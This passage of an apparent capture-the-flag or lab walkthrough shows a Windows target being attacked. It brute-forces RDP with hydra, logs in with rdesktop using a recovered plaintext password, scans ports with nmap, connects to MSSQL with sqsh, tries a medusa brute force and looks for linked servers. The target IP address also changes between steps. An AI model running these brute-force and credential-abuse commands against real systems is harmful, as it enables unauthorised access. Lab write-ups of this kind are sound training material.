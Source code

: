 In each directory there are files containing user credentials so download them using `get filename`. of particular interest is the 'secrets.txt' file in John's directory which suggesting that this user is running a linked server so let's use the credentials file of "Fiona" to attempt brute-forcing RDP access.

{% code fullWidth="true" %}
```
hydra -l fiona -P ./creds.txt 10.129.150.169 rdp -vV 
```
{% endcode %}

I obtained the password and now i will use it to connect to RDP using the 'rdesktop' command.

```
rdesktop -u fiona -p '48Ns72!bns74@S84NNNSl' 10.129.150.169
Autoselecting keyboard map 'en-us' from locale
```

The first step i took was to check the users on the machine as you can see, i couldn't find users 'Simon' and 'John' so we won't brute force RDP again with their credentials file. In the next step i will include the listening port in the Nmap scan.

![](https://www.hack-notes.pro/~gitbook/image?url=https%3A%2F%2F1785929618-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FAXymzcH5Nj1Px2RyBUvX%252Fuploads%252FmRJOLSqJ65kmTkJTe55Z%252FPasted%2520image%252020240404150239.png%3Falt%3Dmedia%26token%3Dc1953414-9fbf-48a9-8a04-919496f3f7c6\&width=768\&dpr=4\&quality=100\&sign=b806754c\&sv=2)

i run Nmap scan with all these ports

{% code fullWidth="true" %}
```
nmap -p135,445,1433,3389,5985,47001,49664,49665,49666,49667,49668,49669,49670,49697,139 10.129.150.169 -A -Pn -vvv 
```
{% endcode %}

As we can see there is an MSSQL port available so let's use Fiona's credentials to connect to it.

{% code fullWidth="true" %}
```
sqsh -S 10.129.203.10 -U '.\\fiona' -P '48Ns72!bns74@S84NNNSl' -h
```
{% endcode %}

It worked so can we use other user credentials to brute-force MSSQL? i attempted to brute-force other users using `Medusa`.

```
medusa -h 192.168.1.128 –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql
```

And it did not work so let's return to our session in MSSQL and If you recall we found a file named 'information.txt' under John's directory that contained 'create a local linked server'. Let's check if there are any linked servers.

{% code fullWidth="true" %}
```
1> SELECT srvname, isremote FROM sysservers
2> go
```
{% endcode %}
